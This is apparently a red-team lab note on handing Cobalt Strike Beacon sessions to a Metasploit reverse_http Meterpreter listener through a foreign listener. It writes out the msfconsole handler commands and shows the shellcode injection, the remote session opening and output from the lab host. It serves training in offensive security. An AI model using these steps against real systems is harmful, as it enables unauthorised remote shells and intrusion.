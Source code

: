 The foreign listener in Cobalt Strike is designed to stage Meterpreter HTTP/HTTPS implants from Beacon, although it's technically compatible with any implant that supports the MSF staging protocol.  Start `msfconsole` and create a new reverse HTTP Meterpreter listener.
```bash
# Done on Attacker Linux
attacker@ubuntu ~> sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST ens5
msf6 exploit(multi/handler) > set LPORT 8080
```

` You must use the "staged" reverse_http payload type and ensure you use a port that Cobalt Strike is not already listening on.`

```
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```

Go to the listener management in Cobalt Strike and create a new **Foreign HTTP** listener.  The stager host and port must match your MSF multi handler.

![[MSF LISTENER.png]]

This listener will now be available within all the relevant Beacon commands such as `spawn`, `jump` and `elevate`.  For instance, `spawn msf` will spawn a process and inject Meterpreter shellcode into it, thus giving us a Meterpreter session.

```BASH
# used spawn msf command on bfarmer instance - worked
[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: t6qekc2g) Staging x86 payload (176732 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 11:29:54 +0000

meterpreter > sysinfo
Computer        : WKSTN-2
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : DEV
Logged On Users : 11
Meterpreter     : x86/windows
```

Two downsides to the foreign listener is that it only supports x86 staged payloads (no x64 or stageless).